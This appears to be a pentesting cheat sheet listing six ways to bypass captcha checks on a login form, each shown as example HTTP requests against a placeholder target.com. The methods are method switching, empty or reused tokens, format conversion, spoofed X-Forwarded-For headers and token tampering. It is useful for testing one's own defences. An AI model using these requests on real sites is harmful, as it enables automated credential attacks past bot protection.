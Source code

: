 # Bypass Captcha (Google reCAPTCHA)

1. Try changing the request method, for example POST to GET
```
POST / HTTP 1.1
Host: target.com
[...]

_RequestVerificationToken=xxxxxxxxxxxxxx&_Username=daffa&_Password=test123
```

Change the method to GET
```
GET /?_RequestVerificationToken=xxxxxxxxxxxxxx&_Username=daffa&_Password=test123 HTTP 1.1
Host: target.com
[...]
```

2. Try remove the value of the captcha parameter
```
POST / HTTP 1.1
Host: target.com
[...]

_RequestVerificationToken=&_Username=daffa&_Password=test123
```

3. Try reuse old captcha token
```
POST / HTTP 1.1
Host: target.com
[...]

_RequestVerificationToken=OLD_CAPTCHA_TOKEN&_Username=daffa&_Password=test123
```

4. Convert JSON data to normal request parameter
```
POST / HTTP 1.1
Host: target.com
[...]

{"_RequestVerificationToken":"xxxxxxxxxxxxxx","_Username":"daffa","_Password":"test123"}
```
Convert to normal request
```
POST / HTTP 1.1
Host: target.com
[...]

_RequestVerificationToken=xxxxxxxxxxxxxx&_Username=daffa&_Password=test123
```

5. Try custom header to bypass captcha
```
X-Originating-IP: 127.0.0.1
X-Forwarded-For: 127.0.0.1
X-Remote-IP: 127.0.0.1
X-Remote-Addr: 127.0.0.1
```

6. Change some specific characters of the captcha parameter and see if it is possible to bypass the restriction.
```
POST / HTTP 1.1
Host: target.com
[...]

_RequestVerificationToken=xxxxxxxxxxxxxx&_Username=daffa&_Password=test123
```
Try this to bypass
```
POST / HTTP 1.1
Host: target.com
[...]

_RequestVerificationToken=xxxdxxxaxxcxxx&_Username=daffa&_Password=test123
```